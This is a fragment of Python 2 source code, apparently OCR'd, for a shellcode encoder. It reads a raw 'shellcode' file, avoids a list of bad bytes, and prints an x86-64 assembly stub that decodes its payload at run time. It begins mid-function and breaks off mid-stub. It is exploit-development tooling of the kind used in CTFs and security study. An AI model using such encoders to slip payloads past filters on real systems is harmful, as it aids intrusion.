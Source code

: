 ```python
    print "cannot find proper byte for {}".format(b)
    exit(-1)
        
badchars = [0x0, 0xa, 0xd, 0x2f, 0xff, 0xf, 0x5, 0x68]
for i in range(0x40, 0x82):
    badchars.append(i)
# paranoia!
for i in range(0x1, 0xf):
    badchars.append(i)
    
with open('shellcode') as sc:
    data = sc.read()
    sc.close()

storage = ''
encoded_bytes = ''
commands = ''
defines = ''
num_commands = 0

while len(data) % 4:
    data += "\x8f"
    
for b in data:
    (b1, b2) = find_sub_bytes(b)
    
    storage += b1
    encoded_bytes += b2
    if len(storage) == 4:
        # emit
        carry = 0   # clear carry, not necessary for next dword!
        commands += "_a{} dd {}\n".format(num_commands, hex(struct.unpack('<L', storage)[0]))
        defines += "_b{} dd {}\n".format(num_commands, hex(struct.unpack('<L', encoded_bytes)[0]))
        storage = ''
        encoded_bytes = ''
        num_commands += 1
                    
print """default rel
bits 64

;mov rax, 10
;mov rdi, 0x400000
;mov rsi, 0x1000
;mov rdx, 7
;syscall

;lea rax, [_start]

_start:
_stage0:                ; stage0 will carve out stage1 
xor ecx,ecx
jmp _decoder
"""
print commands
print defines
print """
_decoder:
xor ebx,ebx
mov cl, (_a{}-_start)/4
mov bl, (_b{}-_start)/4
_decodeloop:
fild dword [rax+rbx*4]
dec bl
```
